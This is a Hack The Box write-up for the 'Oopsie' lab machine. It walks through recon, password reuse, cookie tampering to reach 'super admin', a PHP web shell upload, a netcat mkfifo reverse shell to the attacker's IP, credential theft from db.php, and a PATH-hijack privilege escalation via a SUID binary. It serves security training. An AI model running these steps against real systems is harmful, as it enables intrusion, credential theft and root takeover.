




# Oopsie: 10.10.10.28

## Hints

- Enumerating the web app thoroughly is crucial to finding a foothold
- There's admin, but have you heard of super admin?
- Password reuse in starting point seems to be a thing
- Check the cookie!
- Privesc is all about finding and reversing a program with SUID

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

## 80: Recon

Starting with a look at the website on port 80. Pretty simple, and normal looking. There is a reference to an email address `admin@megacorp.com` - which indicates that `admin` might be a useful username. 

Before moving on, started a `gobuster` scan looking for interesting directories on the webserver. Nothing special, just the usual arguments.

```none
gobuster dir -t 20 -u  -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_80_root_medium.log
```

Although this took a while - one interesting result was the `uploads` directory. Will come back to this later.

Looking at the source code of the home page, there is a JavaScript link to an interesting internal URL:

```none
<script src="/cdn-cgi/login/script.js"></script>
```

Additionally, after setting up Burp and performing a request, we get the sitemap and the following URLs.

```none
http://10.10.10.28/css/new.css
http://10.10.10.28/js/min.js
http://10.10.10.28/css/1.css
http://10.10.10.28/cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js
http://10.10.10.28/js/prefixfree.min.js
http://10.10.10.28/css/reset.min.css
http://10.10.10.28/cdn-cgi/login/index.php
http://10.10.10.28/css/font-awesome.min.css
http://10.10.10.28/themes/theme.css
http://10.10.10.28/js/index.js
http://10.10.10.28/cdn-cgi/login/script.js
http://10.10.10.28/css/normalize.min.css
```

Going to that the login URL (`http://10.10.10.28/cdn-cgi/login/`) we see a login form.



Since I have gone through the entire "Starting Point" series of machines... I know that password re-use across multiple boxes is a thing. I find this unusual. There is nothing (AFAIK) that states password re-use will/might happen in Starting Point or that the boxes are somewhat linked and think it is somewhat misleading - mainly because it is not a thing that happens in normal Hack The Box machines. Anyway, moving on.

Tried some of the passwords found in `Archtype` (the first machine) on this login. Used the username `admin` as it was referenced as a known email on the website footer. Password was found, and access granted using the following creds.

- Username: `admin`
- Password: `MEGACORP_4dm1n!!`

## 80: Admin Panel



After logging in, we get redirected to: `http://10.10.10.28/cdn-cgi/login/admin.php`. There are a bunch of menu options on the web app.

- Account: shows accounts on the web app (id, name, email)
- Branding: shows car brands and price (id, model, price)
- Clients: shows client info (id, name, email)
- Uploads: shows nothing as it is locked to "super admin"

At the moment, the account page looks the most interesting. Especially because it shows the `admin@megacorp.com` account as the first entry. What is even more interesting - it shows the "Access ID" for the account. Comparing this value to the website cookie shows that it is being used.

- `role: admin`
- `user: 34322`

I tried changing the `role` to `super admin` in the cookie to get access to the uploads page - no luck. So I am guessing we need to find the "super admin" ID number. Lucky for us, on the Accounts page, there is an `id` parameter that is predictable - starting at 1 and incrementing. A quick test shows that changing the `id` parameter to 2, 3, 4 etc. shows different users. We could do this manually, or via Burp, but I think a script would be the most elegant - and probably the most time-consuming!

So I wrote a quick Python script to login to the web app, create a session, then query the Accounts page with an incrementing `id` value. The script is named [`enum_user_ids.py`](exploits/enum_user_ids.py) and is available in the `exploits` folder. The script prints out the following format:

```none
integer:user_id:user_name
```

After running the script, we can see the results:

```none
└─$ python3 enum_user_ids.py
1:34322:admin
2:none:none
3:none:none
4:8832:john
5:none:none
6:none:none
7:none:none
8:none:none
9:none:none
10:none:none
11:none:none
12:none:none
13:57633:Peter
14:none:none
15:none:none
16:none:none
17:none:none
18:none:none
19:none:none
20:none:none
21:none:none
22:none:none
23:28832:Rafol
24:none:none
25:none:none
26:none:none
27:none:none
28:none:none
29:none:none
30:86575:super admin
```

There is a user with the ID `86575` and the name `super admin`. From here, we can change the cookies in Burp or Firefox to use this new value, instead of the original `admin` value of `34322`. I think it is best to do this in Firefox - so that any intercepted requests are already modified - but no biggie using either method.

There are a bunch of other ways to achieve what I did. You could use Burp intruder with a "Simple list" and generate a list of integers using `seq 100`. Like I mentioned, you could also do this manually and would find the "super admin" account fairly quickly.

## 80: Super Admin Panel

Time to navigate to the previously locked uploads area as super admin...



This file upload feature is terrible. No protection at all. Feel free to upload whatever you want! A common go-to for this would be the [`php=reverse-shell` from Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell). It works well - but to have a little more flexibility, I tried a simple PHP script with a request parameter. Create using the following:

```none
echo '<?php system($_REQUEST["cmd"]) ?>' > shell.php
```

Since we knew there is an `uploads` folder at the root of the web app (see gobuster results from before), we can hazard a guess that the file was uploaded there. Navigate to the upload location, in my case `http://10.10.10.28/uploads/shell.php`. The full URL I used to check command injection was:

```none
http://10.10.10.28/uploads/shell.php?cmd=whoami
```

Success!



The easiest way to mess with the request and get a reverse shell is with Burp - so intercept the request. I tried a bash reverse shell with no luck - but the netcat reverse shell worked well. As usual, checked that `nc` was available by using `cmd=which+nc`. The reverse shellcode I used is documented below.

```none
GET /uploads/shell.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 9001 >/tmp/f HTTP/1.1
```

Make sure to URL encode! Ctrl + U does the trick after highlighting the payload. With a netcat listener ready on my machine - got a callback and the user flag.

```none
└─$ nc -lvnp 9001                                  
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.28] 46312
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls -lisa /home
total 12
393217 4 drwxr-xr-x  3 root   root   4096 Jan 23  2020 .
     2 4 drwxr-xr-x 24 root   root   4096 Jan 27  2020 ..
525971 4 drwxr-xr-x  5 robert robert 4096 Feb 25  2020 robert
$ wc -c /home/robert/user.txt
33 /home/robert/user.txt
```

## Privesc: `www-data` to `robert`

Ran some linpeas to see if anything popped up. I had to look around a little bit for this info - and missed it in the linpeas output. Instead, while I was traversing the file system I found a `db.php` file in the webroot directory that had some more credentials in it.

```none
$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

New creds!

- Username: `robert`
- Password: `M3g4C0rpUs3r!`

The next step was not obvious to me. On reflection, it probably should have been. The new creds have a username of `robert` which was the only other user on the system. After some hair pulling, got to the point of trying to log in as `robert` via ssh.

```none
└─$ ssh robert@10.10.10.28
robert@10.10.10.28's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jul  8 07:56:32 UTC 2021

  System load:  0.0                Processes:             130
  Usage of /:   25.6% of 19.56GB   Users logged in:       0
  Memory usage: 34%                IP address for ens160: 10.10.10.28
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.


Last login: Sat Jan 25 10:20:16 2020 from 172.16.118.129
robert@oopsie:~$ 
```

## Privesc: `robert` to `root`

Similar to after gaining `www-data` access - ran linpeas to find some potential privesc avenues. After reviewing the output, found an interesting program named `bugtracker` - for which `robert` was a group member and which had SUID. The linpeas output on this is below.

```none
-rwsr-xr-- 1 root   bugtracker      8.6K Jan 25  2020 /usr/bin/bugtracker (Unknown SUID binary)
----------------------------------------------------------------------------------------
  --- Trying to execute /usr/bin/bugtracker with strace in order to look for hijackable libraries...
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
----------------------------------------------------------------------------------------
```

Looking at the permissions, since `robert` is in the `bugtracker` group - we can run this program.

```none
robert@oopsie:~$ ls -la /usr/bin/bugtracker 
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

Seeing as we are dealing with a binary - tried running the `strings` program against it to try to extract some useful information.

```none
robert@oopsie:~$ strings /usr/bin/bugtracker 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
strcpy
__isoc99_scanf
__stack_chk_fail
putchar
printf
strlen
malloc
strcat
system
geteuid
__cxa_finalize
__libc_start_main
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/
;*3$"
GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
```

Nothing looks of interest until the `cat /root/reports` line. I have encountered something like this before - where you can manipulate the command / binary to be loaded from a different path. If the `cat` command has an absolute path (e.g., `/usr/bin/cat`) this would not be possible.

To do this, we just need to create a new `cat` binary and update our `PATH` environment variable. I did this in the `/dev/shm` directory.

```none
cd /dev/shm/
export PATH=/dev/shm/:$PATH
echo "id" > cat
chmod +x cat
```

Success! When we ran bugtracker - it, in turn, ran `cat` and printed out the `id` command - showing it was run as root.

```none
robert@oopsie:/dev/shm$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

Now we can add `bash` to the `cat` file to spawn a new bash shell as the root user.

```none
robert@oopsie:/dev/shm$ echo "/bin/bash" > cat
robert@oopsie:/dev/shm$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

root@oopsie:/dev/shm# whoami
root
root@oopsie:/dev/shm# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
root@oopsie:/dev/shm# wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Writing custom scripts takes ages, better to use the tools that work out of the box when possible
- Kali has so many Python packages by default such as requests and lxml
- Start using more privesc tools and don't rely on just one

## Useful Resources

- Check the official/non-official walkthroughs on Hack The Box website
